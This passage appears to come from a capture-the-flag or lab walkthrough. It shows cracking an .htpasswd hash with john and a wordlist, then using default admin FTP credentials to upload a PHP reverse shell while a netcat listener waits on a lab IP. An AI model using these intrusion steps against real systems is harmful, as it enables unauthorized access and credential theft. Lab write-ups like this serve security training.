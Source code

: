 - Change file name

```bash
mv .htpasswd offsec.txt
```

- Bruteforced with john.

```bash
john --wordlist=rockyou.txt offsec.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
elite            (offsec)     
1g 0:00:00:00 DONE (2025-07-17 13:20) 6.250g/s 158400p/s 158400c/s 158400C/s lovestruck..260989
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                
```

- Cracked credential is **offsec:elite**.

---

## Initial Access

- As we have server access with **admin:admin** credentials, we can upload our shell using ftp.
- Downloaded php reverse shell for windows and modified ip port. eg. https://github.com/ZishanAdThandar/pentest/tree/main/shell
- Started netcat listener

```bash
nc -lvnp 1337
listening on [any] 1337
```

- Upload the shell using ftp server as admin user.

```bash
ftp admin@192.168.55.46
Connected to 192.168.55.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put hack.php 
local: hack.php remote: hack.php
229 Entering Extended Passive Mode (|||2048|)
150 File status okay; about to open data connection.
100% |*************************************************************| 34926       37.38 MiB/s    00:00 ETA
226 Closing data connection.
34926 bytes sent in 00:00 (804.60 KiB/s)
ftp> 

```

